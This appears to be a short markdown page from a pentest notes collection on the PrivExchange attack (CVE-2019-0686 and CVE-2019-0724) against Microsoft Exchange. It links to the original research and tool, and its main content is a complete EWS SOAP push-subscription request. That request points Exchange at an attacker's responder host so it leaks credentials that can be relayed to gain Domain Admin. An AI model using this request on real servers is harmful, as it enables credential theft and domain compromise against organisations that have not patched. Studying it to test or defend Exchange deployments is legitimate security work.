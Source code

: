 ```yaml
---
title : "CVE-2019-0686"
# pre : ' '
description : "Abusing Exchange: One API call away from Domain Admin. (CVE-2019-0686 & CVE-2019-0724)"
date : 2021-02-03T13:28:29+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## PrivExchange - Abusing Exchange: One API call away from Domain Admin (CVE-2019-0686 & CVE-2019-0724)

[Abusing Exchange - One API call away from Domain Admin](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/)
[Exploiting PrivExchange](https://chryzsh.github.io/exploiting-privexchange/)

### Examples

#### SOAP request creating subscription to mailbox

```plain
POST /ews HTTP/1.1
Host: exchange.example.com
Accept: */*
Accept-Language: nl-nl
Accept-Encoding: gzip, deflate
Content-Type: text/xml; charset=UTF-8
Content-Length: 934
Connection: close
Referer: https://exchange.example.com/ews
User-Agent: iPhone/11.1

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:t="http://schemas.microsoft.com/exchange/services/2006/types" xmlns:m="http://schemas.microsoft.com/exchange/services/2006/messages">
    <soap:Header>
        <t:RequestServerVersion Version="Exchange2013" />
    </soap:Header>
    <soap:Body>
        <m:Subscribe>
            <m:PushSubscriptionRequest SubscribeToAllFolders="true">
                <t:EventTypes>
                    <t:EventType>NewMailEvent</t:EventType>
                    <t:EventType>ModifiedEvent</t:EventType>
                    <t:EventType>MovedEvent</t:EventType>
                </t:EventTypes>
                <t:StatusFrequency>1</t:StatusFrequency>
                <t:URL>http://<responder-IP-adres/gibcredsplz_2013_4/</t:URL>
            </m:PushSubscriptionRequest>
        </m:Subscribe>
    </soap:Body>
</soap:Envelope>
```

### URL list

* [Github.com - DirkjanM - PrivExchange](https://github.com/dirkjanm/PrivExchange)
* [Abusing Exchange - One API call away from Domain Admin](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/)
* [Chryzsh.github.io - Exploiting PrivExchange](https://chryzsh.github.io/exploiting-privexchange/)
